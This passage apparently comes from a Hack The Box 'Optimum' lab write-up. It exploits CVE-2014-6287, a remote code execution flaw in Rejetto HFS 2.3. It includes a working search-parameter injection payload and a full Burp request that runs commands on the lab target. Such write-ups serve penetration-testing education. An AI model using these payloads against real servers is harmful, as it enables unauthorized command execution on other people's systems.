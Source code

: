 
## Initial Shell

### CVE2014-6287

When we search Exploit-DB for HFS, we get several results for Rejetto HTTP File Server, and specifically, version 2.3. While there is a Python script available, we're going to bypass it, and exploit the vulnerability manually, as it'll lead to a cleaner path to root.

> NOTE: If you decide to go down the path of the Python script, note that you'll have to find a way to get a 64-bit shell at some point if you want to use the same privesc method I do here.

The vulnerability here is CVE-2014-6287. It's a Remote Code Execution, due to a poor regex implementation in the source code of the application. Essentially, we can use something like the below URL in a HTTP GET request to run commands on the target. [This page](https://www.exploit-db.com/exploits/34668) explains the specifics for you.

```
http://10.10.10.8:80/?search=%00{.exec|cmd.}
```

We can fire up Burp Suite, and intercept some traffic from the site, and feed it to the Repeater tool.

We should first test to see if we can get code execution, using the below request. Run `tcpdump -i tun0 icmp` first, to capture the pings we send.

![](/assets/htb-optimum/burp_ping.png)

Exploit request:

```
GET /?search=%00{.exec|ping+10.10.14.20.} HTTP/1.1
Host: 10.10.10.8
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.8/
Connection: close
Cookie: HFS_SID=0.609321830095723
Upgrade-Insecure-Requests: 1
```
